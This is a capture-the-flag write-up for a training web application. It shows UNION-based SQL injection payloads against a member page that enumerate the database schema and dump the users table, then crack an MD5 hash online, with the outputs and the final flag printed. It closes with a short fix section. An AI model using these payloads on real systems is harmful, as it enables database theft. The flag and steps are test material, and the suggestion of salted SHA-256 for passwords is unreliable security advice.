 # Where:
    /?page=member
# How:
-By entering:

    -1 union select null, concat (table_name) from information_schema.tables where table_schema = database ()

-We get the following output:

    ID: -1 union select null, concat (table_name) from information_schema.tables where table_schema = database () 
    First name: 
    Surname : users
    
-This tells us that the only table is *users*.

-We then enter:

    -1 union select null, concat (column_name) from information_schema.columns where table_schema = database ()

-We get the following output:

    ID: -1 union select null, concat (column_name) from information_schema.columns where table_schema = database () 
First name: 
Surname : user_id
ID: -1 union select null, concat (column_name) from information_schema.columns where table_schema = database () 
First name: 
Surname : first_name
ID: -1 union select null, concat (column_name) from information_schema.columns where table_schema = database () 
First name: 
Surname : last_name
ID: -1 union select null, concat (column_name) from information_schema.columns where table_schema = database () 
First name: 
Surname : town
ID: -1 union select null, concat (column_name) from information_schema.columns where table_schema = database () 
First name: 
Surname : country
ID: -1 union select null, concat (column_name) from information_schema.columns where table_schema = database () 
First name: 
Surname : planet
ID: -1 union select null, concat (column_name) from information_schema.columns where table_schema = database () 
First name: 
Surname : Commentaire
ID: -1 union select null, concat (column_name) from information_schema.columns where table_schema = database () 
First name: 
Surname : countersign

    
-This tells us that there are the following columns: *user_id*, *first_name*, *last_name*, *town*, *country*, *planet*, *Commentaire* and *countersign*.

-We then enter:

    -1 union select NULL, concat (user_id, first_name, last_name, town, country, planet, Commentaire, countersign) from users

-We get all the users' information.
-The 5th user has the following info and instructions:

    user_id: 5,
    first_name: Flag,
    last_name: GetThe,
    town: 42,
    country: 42,
    planet: 42,
    Commentaire: Decrypt this password -> then lower all the char. Sh256 on it and it's good !,
    countersign: 5ff9d0165b4f92b14994e5c685cdce28

-If we decrypt *5ff9d0165b4f92b14994e5c685cdce28* at [MD5 Online](https://www.md5online.org/md5-decrypt.html) we receive the word *FortyTwo*
-Which we change to all be lowercase then hash using sha256 at [sha256 hash calculator](https://xorbin.com/tools/sha256-hash-calculator) to receive the flag.

# Flag:
10a16d834f9b1e4068b25c4c46fe0284e99e44dceaf08098fc83925ba6310ff5

# Possible abuses:
Hackers could potentially access all info in your BD even hashed passwords could potentially be decrypted using sites.

# Fix:
Use [prepared statements](https://www.w3schools.com/php/php_mysql_prepared_statements.asp) to prevent sql injections.
I do also believe sha256 is a better hash to use especialy when combined with a salt.
